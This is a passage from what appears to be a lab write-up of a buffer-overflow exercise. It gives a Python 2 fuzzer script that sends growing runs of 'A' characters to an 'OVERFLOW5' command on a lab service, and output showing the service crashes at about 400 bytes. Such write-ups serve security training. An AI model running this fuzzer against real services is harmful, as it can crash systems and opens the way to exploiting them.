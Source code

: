 
I create a small python2 script to iterate the values ​​of the argument that I am passing to the vulnerable service until I reach a point where the service stops working.

```
#!/usr/bin/python2
import socket
import sys
from time import sleep

buffer = "A" * 200

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.settimeout(2)
        s.connect(('192.168.0.104',1337))
        s.recv(1024)

        print '[*] Length: ' + str(len(buffer))
        s.send("OVERFLOW5 " + buffer)
        s.close()
        sleep(1)
        buffer=buffer+'A'* 200

    except Exception as e:
        print '[*] Error: ' + str(e)
        sys.exit()
```

I launch the fuzzer.py and it is observed that the service crashes after sending 400 A's

```
> python fuzzer.py
[*] Length: 200
[*] Length: 400
[*] Error: timed out
```
![crash](/assets/imgs/bof5_oscp/crash.png)

